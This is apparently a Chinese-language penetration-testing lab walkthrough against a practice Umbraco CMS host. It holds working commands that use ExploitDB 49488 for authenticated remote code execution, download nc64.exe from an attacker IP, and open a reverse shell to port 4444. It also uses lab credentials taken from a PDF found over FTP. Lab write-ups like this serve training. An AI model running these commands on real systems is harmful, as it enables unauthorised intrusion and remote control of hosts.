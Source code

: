 <img width="1920" height="839" alt="image" src="https://github.com/user-attachments/assets/af86a797-198f-4cbb-9e3f-ea387a23127d" />## nmap scannning
- <img width="1920" height="790" alt="image" src="https://github.com/user-attachments/assets/a66d0886-6d2b-4bb3-8ca7-81a1f5577232" />
- <img width="1920" height="570" alt="image" src="https://github.com/user-attachments/assets/d4001de7-d692-476a-8b0d-157df742b328" />

## 14020 port
- ftp 匿名登入成功，並將 umbraco.pdf 抓下來
  - <img width="1920" height="596" alt="image" src="https://github.com/user-attachments/assets/98cba00e-b69a-403a-9856-312094801434" />
- umbraco.pdf 提到有個 mark@relia.com 和 密碼，並且需將 web02.relia.com、relia.com 加入 hosts
  - <img width="1920" height="859" alt="image" src="https://github.com/user-attachments/assets/33b9ed54-2d9d-476e-8b68-71c28ff352b3" />
  - <img width="1920" height="839" alt="image" src="https://github.com/user-attachments/assets/906c6ea9-b43b-46d3-8a74-e6dc2afbd629" />

## 14080 port
- 需要輸入 FQDN（完整網域名稱）才能訪問
  - <img width="1920" height="837" alt="image" src="https://github.com/user-attachments/assets/1b298059-3031-48bd-8729-29c6927397ce" />
- 發現 /umbraco/#/login 是 umbraco CMS 的登入介面
  - <img width="1920" height="815" alt="image" src="https://github.com/user-attachments/assets/eb765504-0efd-4029-9c1d-96ac0a72589a" />
- 成功用 mark@relia.com、OathDeeplyReprieve91 登入，並且發現 umbraco 的版本為 7.12.4
  - 
- ExploitDB 發現 Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
  - https://www.exploit-db.com/exploits/49488
  - <img width="1919" height="910" alt="image" src="https://github.com/user-attachments/assets/8c099e9d-306c-4d18-860e-bf41448a0a55" />
- 成功 dir 到檔案
  ```
  python 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080/' -c powershell.exe -a 'dir'
  ```
  - <img width="1920" height="790" alt="image" src="https://github.com/user-attachments/assets/04c4de64-f32d-4db5-8cb6-f72c93ca0644" />
- 將 nc.exe 上傳，並取得 reverse shell
  ```
  python 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080/' -c powershell.exe -a 'Invoke-WebRequest -Uri http://192.168.45.155:8000/nc64.exe -OutFile /Users/Public/Downloads/nc64.exe'
  python 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080/' -c powershell.exe -a '/Users/Public/Downloads/nc64.exe -e cmd.exe 192.168.45.155 4444'
  ```
  - <img width="1920" height="451" alt="image" src="https://github.com/user-attachments/assets/804aadb2-76fa-46eb-bfd6-ac43d4e1d883" />
  - <img width="1288" height="269" alt="image" src="https://github.com/user-attachments/assets/13dff344-b18f-4c7e-98f0-f8944abc06c1" />

## 提權
- metasploit
  - 成功提權成 system
    - <img width="1920" height="670" alt="image" src="https://github.com/user-attachments/assets/b39af03d-1947-40bc-8c97-939a161be4e6" />
- 取得 local.txt
  - <img width="1242" height="601" alt="image" src="https://github.com/user-attachments/assets/1e4be26c-dbcc-42e0-ad94-0e7d94134514" />
- 取得 proof.txt
  - <img width="818" height="125" alt="image" src="https://github.com/user-attachments/assets/27949bc2-0df6-4082-bb56-1042d84e76fe" />
